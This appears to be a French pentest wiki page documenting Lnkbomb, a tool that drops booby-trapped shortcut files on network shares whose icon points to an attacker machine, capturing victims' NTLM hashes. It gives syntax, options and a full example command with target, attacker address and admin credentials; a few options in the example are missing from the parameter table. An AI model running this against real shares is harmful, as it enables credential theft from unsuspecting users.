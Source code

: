 ```yaml
---
title: Lnkbomb
description: Transfère automatiquement des fichiers raccourcis piégés (.lnk) vers des partages de fichiers. Permet de récupérer le hash NTLM de l'utilisateur quand il essaie d'accéder au raccourci.
published: true
date: 2025-05-04T14:53:46.040Z
tags: outil, windows
editor: markdown
dateCreated: 2024-10-26T08:26:41.495Z
---
```


# Introduction

Lnkbomb permet de transférer automatiquement des fichiers raccourcis piégés (.url) vers des partages de fichiers. Permet de récupérer le hash NTLM de l'utilisateur quand il essaie d'accéder au raccourci.

La base de l'exploitation repose sur le fait de définir l'icone du raccourci vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupèrer cette icône.

> Lnkbomb est disponible au téléchargement [ici](https://github.com/dievus/lnkbomb)
> {.is-info}

# Syntaxe

`lnkbomb.py --target <adresse du partage cible> --attacker <adresse de la machine attaquante> -s <nom du partage> <--windows|--linux> [--netbios <nom netbios>] [paramètres]`

# Paramètres

| Paramètre                                                   | Description                                                                               |
| ----------------------------------------------------------- | ----------------------------------------------------------------------------------------- |
| `-h, --help`                                                | Affiche l'aide.                                                                           |
| `-t, --target`                                              | Spécifie l'adresse de la cible contenant le partage où déposer le fichier raccourci .url. |
| `-a, --attacker`                                            | Spécifie l'adresse de la machine attaquante vers laquelle renvoyer l'utilisateur.         |
| `-r <nom de fichier .url>, --recover <nom de fichier .url>` | Supprime le fichier spécifié raccourci .url sur le partage.                               |
| `-w, --windows`                                             | Utilise les ports associés à Windows.                                                     |
| `-l, --linux`                                               | Utilise les ports associés à Linux.                                                       |
| `-n <nom netbios>, --netbios <nom netbios>`                 | Spécifie le nom netbios de la cible. Obligatoire pour Windows.                            |

# Exemples

Créer un fichier piégé .url avec comme emplacement d'icone 192.168.1.100. Situé sur \\192.168.1.1\MonPartage, sur une machine Windows nommée "serveurpartage". S'authentifie au partage avec l'utilisateur Admin et le mot de passe "MotDePasseAdmin!".

`lnkbomb.py -t 192.168.1.1 -a 192.168.1.100 -s MonPartage -u Admin -p MotDePasseAdmin! -n serveurpartage --windows`
